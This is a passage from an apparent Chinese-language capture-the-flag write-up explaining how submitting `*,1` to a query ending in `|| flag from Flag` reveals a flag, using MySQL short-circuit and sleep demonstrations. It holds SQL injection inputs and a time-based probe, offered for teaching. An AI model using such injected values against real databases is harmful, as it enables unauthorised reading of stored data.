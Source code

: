 **第一种解法: 提交 `*,1`**

看到 `||` 想到了之前命令执行的 payload

```bash
cmd1 || cmd2 # 如果 cmd1 正常执行就不会执行 cmd2
```

SQL 中逻辑运算符 `||` 的判断跟上面的一样, 如果前面的条件为 true 就不会执行后面的条件 (因为此时整个条件已经满足 true), 如果前面的条件为 false, 则会进一步判断后面的条件, 进而检查整个条件是 true 还是 false

因为直接 select 字符串不方便理解, 这里本地用 sleep 为例

```sql
mysql> select * from Flag;
+------------+
| flag       |
+------------+
| flag{test} |
+------------+
1 row in set (0.00 sec)

mysql> select 1 || sleep(1) from Flag;
+---------------+
| 1 || sleep(1) |
+---------------+
|             1 |
+---------------+
1 row in set (0.00 sec)

mysql> select 0 || sleep(1) from Flag;
+---------------+
| 0 || sleep(1) |
+---------------+
|             0 |
+---------------+
1 row in set (1.01 sec)
```

可以看到前面为 1 的时候, 因为整个条件本身已经满足 true, 所以不会执行 sleep(1), 而前面为 0 的时候, 则需要进一步确认整个条件的真假性, 所以执行了后面的 sleep(1) (返回 0 的原因是 sleep 函数没有返回值)

理解了之后再看第一种解法

```sql
select *,1 || flag from Flag;
```

把语句分开看, 逗号前面是 `*`, 而逗号后面的 `1 || flag` 是一个整体, 这个整体返回的就是 true

这就类似于平常查表的时候执行 `select name,age from students`, 通过逗号来查询多个字段

为啥是 `*,1` 而不能是 `1,*`? 后者在 mysql 里执行会报错

把语句拼接一下是下面这样

```sql
select 1,* || flag from Flag;
```
